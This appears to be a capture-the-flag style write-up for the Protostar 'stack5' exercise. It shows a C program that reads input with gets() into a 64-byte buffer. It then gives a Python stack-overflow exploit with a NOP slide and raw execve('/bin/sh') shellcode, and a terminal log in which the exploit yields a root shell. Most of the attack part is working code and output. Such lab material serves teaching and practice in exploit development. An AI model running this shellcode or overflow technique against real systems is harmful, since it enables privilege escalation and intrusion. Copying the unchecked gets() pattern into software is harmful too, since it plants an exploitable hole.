 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Aim: get root shell

Here is the exploit (saved as `st5.py`):
```python
import struct
eaxval=0xbffff760
ebpval=0xbffff7a8
espval=0xbffff750
padding='a'*(ebpval-eaxval)+struct.pack('<I',ebpval)
rip=struct.pack('<I',ebpval+0xc0)
nopslide='\x90'*1000

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
#shellcode = '\xcc'*4
output=padding+rip+nopslide+shellcode
print output
```

Sample output:
```bash
user@protostar:/opt/protostar/bin$ (python ~/st5.py ; cat) | ./stack5
whoami
root
```
